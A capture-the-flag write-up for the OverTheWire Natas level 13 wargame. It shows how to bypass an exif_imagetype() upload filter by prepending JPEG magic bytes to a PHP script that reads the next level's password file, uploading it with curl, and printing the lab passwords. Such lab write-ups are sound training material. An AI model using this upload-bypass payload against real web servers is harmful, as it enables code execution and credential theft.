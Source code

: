 This seems to be the same as natas12 but now:
```php
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
	echo "File is not an image";
}
```
It only accepts image files using `exif_imagetype()`.

Let's learn how this function works so that we can bypass it.

From the official php documentation:
```txt
exif_imagetype() reads the first bytes of an image and checks its signature
```

So all we have to do to bypass this function is to add in the first bytes of a jpg file. The magic bytes for jpg is `FF D8 FF EE` (according to [wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures))

```sh
$ echo -e "\xFF\xD8\xFF\xEE" > test.php
$ file test.php
test.php: JPEG image data
```

now that `test.php` is recognized as a jpg file, let's load it up with some script:

```sh
echo -n '<?php $password = file_get_contents("/etc/natas_webpass/natas14"); echo $password; ?>' >> test.php
```

Putting this through the same curl command as natas12...
```sh
curl -u natas13:lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9 -F "filename=test.php" -F "uploadedfile=@./test.php" http://natas13.natas.labs.overthewire.org
```

... we get:
```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas13", "pass": "lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9" };</script></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>
The file <a href="upload/r9zzwz9ucm.php">upload/r9zzwz9ucm.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Now, if we go to `upload/r9zzwz9ucm.php`, we get:
```
qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP
```